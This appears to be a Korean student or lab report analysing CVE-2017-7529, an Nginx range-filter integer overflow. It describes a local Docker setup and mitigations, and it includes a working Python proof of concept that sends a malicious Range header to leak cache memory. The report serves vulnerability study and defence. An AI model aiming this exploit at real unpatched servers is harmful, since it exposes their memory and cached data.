

# CVE-2017-7529: Nginx Integer Overflow 취약점 분석 및 환경 구성 보고서

## 1. 취약점 요약
- **CVE 번호**: CVE-2017-7529
- **대상 소프트웨어**: Nginx 1.13.2 이하 버전
- **취약점 유형**: 정수 오버플로우 (Integer Overflow)
- **개요**: Nginx의 표준 HTTP 범위 필터 모듈에서 멀티파트 범위의 경계 값을 계산할 때 정수 오버플로우가 발생합니다. 이로 인해 공격자는 의도치 않게 Nginx 캐시 파일의 헤더 뒤에 존재하는 프로세스의 민감한 메모리 레이아웃 데이터를 탈취할 수 있습니다.

---

## 2. 환경 구성
채점 기준 및 완전 재현성을 보장하기 위해 외부 이미지 의존성을 원천 차단하고, 로컬에서 Dockerfile을 통해 소스코드를 직접 컴파일하여 환경을 빌드하도록 설계했습니다. 모든 파일은 UTF-8 인코딩을 준수합니다.

### 구성 파일 목록
1. `Dockerfile`: Ubuntu 16.04 기반 가상 환경에서 취약한 Nginx 1.13.2 버전을 소스 빌드 및 프록시 캐시 디렉터리 생성
2. `nginx.conf`: 취약점 발현 조건인 `proxy_cache_path` 및 리버스 프록시 캐시 메커니즘 활성화
3. `docker-compose.yml`: 단일 명령어로 독립적인 로컬 테스트 환경을 원스톱으로 구성

### 실행 명령어
```bash
docker compose up --build -d
```

---

## 3. 취약 조건
- **취약한 소프트웨어 버전**: Nginx 버전이 1.13.2 이하인 상태여야 합니다.
- **Nginx 캐시 활성화**: `nginx.conf` 내부에서 리버스 프록시 백엔드 기능과 `proxy_cache` 설정이 켜져 있어야 취약한 모듈(Range Filter)을 관통하게 됩니다.
- **정적 파일 캐싱 상태**: 공격 대상 파일이 Nginx의 캐시 저장소(`proxy_cache_path`)에 1회 이상 호출되어 온전히 적재되어 있어야 오버플로우를 통한 캐시 헤더 너머의 메모리 릭이 성공합니다.

---

## 4. 재현 절차 및 PoC 코드
1. `docker compose` 환경을 가동합니다.
2. Nginx 캐시 버퍼에 테스트 정적 데이터를 적재하기 위해 대상 주소(`http://localhost:8080`)에 강제 새로고침을 유도합니다.
3. 32비트 정수 최대값을 초과하도록 조작된 대형 음수 바이트 범위가 포함된 악의적 `Range` 헤더를 전송하는 `poc.py` 스크립트를 구동합니다.

### [PoC Code (`poc.py`)]
```python
import urllib.request

url = 'http://localhost:8080/'

# 1차 캐싱 유도
req = urllib.request.Request(url)
with urllib.request.urlopen(req) as response:
    html = response.read()

# 정수 오버플로우를 유발하는 Multipart Range 헤더 조작
headers = {
    'Range': 'bytes=-1024,-9223372036854774848'
}

req_exploit = urllib.request.Request(url, headers=headers)
try:
    with urllib.request.urlopen(req_exploit) as response:
        print("Response Status:", response.status)
        print("--- 훔쳐온 서버 민감 메모리 데이터 (Leak) ---")
        print(response.read()[:500].decode('utf-8', errors='ignore'))
except Exception as e:
    print("공격 실패 또는 에러 발생:", e)
```

---

## 5. 실행 결과
공격 스크립트 실행 결과, 서버로부터 `206 Partial Content` 응답과 함께 오버플로우가 발생하여 Nginx의 내부 프록시 캐시 키 존(`KEY_ZONE=my_cache`) 및 메모리 파편 데이터가 바이트 형태로 노출되는 것을 확인했습니다.

*아래 스크린샷은 로컬 상대경로를 준수하여 포함되었습니다.*




## 6. 대응 방안
- **소프트웨어 업데이트**: Nginx 버전을 취약점이 패치된 최신 안정 버전(1.13.3 이상 또는 최신 가용 빌드)으로 업그레이드합니다.
- **임시 완화 조치 (Workaround)**: 패치가 불가능한 레거시 환경인 경우, 캐시 기능을 비활성화하거나 Nginx 설정 파일에서 `max_ranges 1;` 옵션을 추가하여 멀티파트 범위 요청 자체를 원천적으로 제한함으로써 정수 계산 논리 버그를 방어할 수 있습니다.
